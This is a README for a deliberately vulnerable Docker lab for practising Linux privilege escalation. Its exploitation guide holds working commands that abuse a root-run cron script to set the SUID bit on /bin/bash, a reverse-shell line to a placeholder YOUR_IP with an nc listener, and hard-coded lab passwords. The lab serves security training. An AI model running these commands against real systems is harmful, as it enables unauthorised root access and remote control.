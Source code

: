
[Lab Screenshot](img.png)

# 🔥 Privilege Escalation Lab - Docker Edition

![Docker](https://img.shields.io/badge/Docker-Containerized-blue)
![Security](https://img.shields.io/badge/Category-Security%20Lab-red)
![License](https://img.shields.io/badge/License-MIT-green)

A deliberately vulnerable Docker environment to practice Linux privilege escalation techniques.

## 🚀 Quick Start

```bash
# Build and run the lab
docker build -t priv_esc_lab .
docker run -d -p 2222:22 -p 5000:5000 --name esc_lab priv_esc_lab
```

## 🎯 Lab Features

- 🐍 Flask web app running as user `jerry`
- 🔑 SSH access with pre-configured keys
- ⏲️ Vulnerability: Root-owned script executing `/tmp/cronjob.sh` every 30s
- 🕵️ Stealthy auto-deletion of exploit artifacts

## 💣 Exploitation Guide

### Method 1: SUID Bit Escalation

```bash
echo '#!/bin/bash' > /tmp/cronjob.sh
echo 'chmod +s /bin/bash' >> /tmp/cronjob.sh
chmod +x /tmp/cronjob.sh
# Wait 30 seconds...
/bin/bash -p  # Boom! Root shell
```

### Method 2: Reverse Shell

```bash
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' > /tmp/cronjob.sh
# On your machine:
nc -lvnp 4444
```

## 🔧 Technical Details

| Component       | Configuration                          |
|-----------------|----------------------------------------|
| SSH Port        | 2222 (Key-based auth only)             |
| Web App Port    | 5000                                   |
| Vulnerable User |  `jerry` (Password: `ynm777!2`)        |
| Root Password   | `zm6Y5413sfFa`                         |

## 📝 Notes
- **Legal Use Only**: For educational purposes
- **Warning**: Never expose this container to untrusted networks!

## 📜 License
MIT © Amir niko
```

